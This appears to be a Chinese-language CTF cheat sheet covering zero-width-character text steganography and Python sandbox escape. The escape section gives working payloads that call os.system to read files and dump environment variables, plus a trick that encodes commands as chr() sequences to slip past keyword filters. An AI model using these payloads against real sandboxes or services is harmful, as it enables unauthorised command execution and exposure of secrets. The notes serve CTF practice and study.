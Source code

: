 ## 文本隐写

**txt零宽度隐写**

- 零宽度字符：隐藏、不显示、不可打印，大部分程序和编辑器是看不到这种字符，用于调整字符的显示格式
- **隐藏**：需要被加密的内容转换为二进制（Morse编码），该二进制（Morse编码）将被转换为一系列零宽度字符，即可将零宽度的字符串不可见地插入正常文本中隐藏

`https://yuanfux.github.io/zero-width-web/`进行加解密，`vim`可能可以看到零宽度字符

## Python逃逸

```Python
print("\033c") # 终端清屏
```

**os库**

```Python
os.chdir(path) # 切换目录
os.listdir(path) # 列出目录文件
```

**re库** 

正则表达式

```Python
re.match("[\\\+]", code) # [..]匹配括号内任意一个字符, \\匹配\, \+匹配 +
re.search(r'["\'0-8bdhosxy_]|[^\x00-\xff]', code)
# [] 匹配其中内容中的一个, \' 转义: '
# ^ 取反 不匹配后面的范围 \x00-\xff : ASCII码 即匹配任何非ASCII码值
```

**random库**

```Python
random.choices(string.ascii_uppercase + string.digits, k=6) # 6位: 大写字母及数字组成
```

**逃逸**

```Python
dir(__builtins__) # 列出内置命名空间中所有属性和方法

__builtins__.__import__("os").system("cat /tmp/.f*") # 执行命令, *匹配某文件
eval(__import__('os').system('env'))
```

屏蔽后绕过方法

```Bash
# 使用每个单词的chr值即ASCII码值
command = "__import__('os').system('ls')"
exp = ""
for i in command:
    exp += f"chr({ord(i)})+"
print(f"eval({exp[:-1]})")
# eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(108)+chr(115)+chr(39)+chr(41))
```
